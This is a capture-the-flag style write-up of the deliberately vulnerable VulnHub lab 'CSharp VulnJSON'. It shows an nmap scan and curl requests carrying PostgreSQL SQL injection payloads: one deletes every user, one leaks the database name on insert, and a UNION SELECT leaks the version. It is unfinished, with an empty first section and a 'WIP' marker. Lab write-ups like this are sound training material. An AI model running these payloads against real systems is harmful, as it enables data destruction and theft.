

### CSharp VulnJSON

Another web challenge, [CSharp VulnJSON](http://www.vulnhub.com/entry/csharp-vulnjson,134/) seemed to be basically about the web exploitations mostly with SQL injections and XSS. After starting the VM, the first thing I did was a nmap scan.

```shell
nmap 192.168.168.54

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-24 11:20 CST
Nmap scan report for 192.168.168.54
Host is up (0.0036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

I loaded the site on the browser and it was a simple application. I saw that it was a simple page that would send XHR to `Vulnerable.ashx` with varieties of payloads. Basically, it seems to be the entrypoint for create, select and delete of CRUD.

The box seems to have a lot of issues with varied levels of criticality.

#### Bug 1 : Directory browsing



#### Bug 2 : Create user that can not be deleted from application

You can include a double quote in your username (eg. `"samar`) and the `Delete User` button won't work for this username.

#### Bug 3 : Delete all users via SQLi

You can delete all of the users via SQLi.
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' OR 1=1--\",\"method\":\"delete\"}"
{ "success" : True }
```

#### Bug 4 : SQLi on insert (Create user)

The first step was to try concatenation operators of various databases and quickly it turned out it was running Postgresql. The following worked:
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"sam'||'ar\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

It created a user with username `samar`. The `||` (double pipe) is the concatenation operator in Postgresql. We can leverage this power to do several other stuffs. Some examples follow:

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"'||current_database()||'\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

Now, if we perform list users, we know that we've a new user called `vulnerable_json` which is in fact result of `current_database()`. We can run several other calls such as current_user, user, etc. The only limit is your imagination and valid syntax while injecting your payloads. See this [cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet) and [this](http://www.sqlinjectionwiki.com/Categories/4/postgresql-sql-injection-cheat-sheet/) for more details.

#### Bug 5 : SQLi in select (list users)

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' union all select version()--\",\"method\":\"list\"}" --compressed
[{"username":"PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit"}]
```

** WIP **
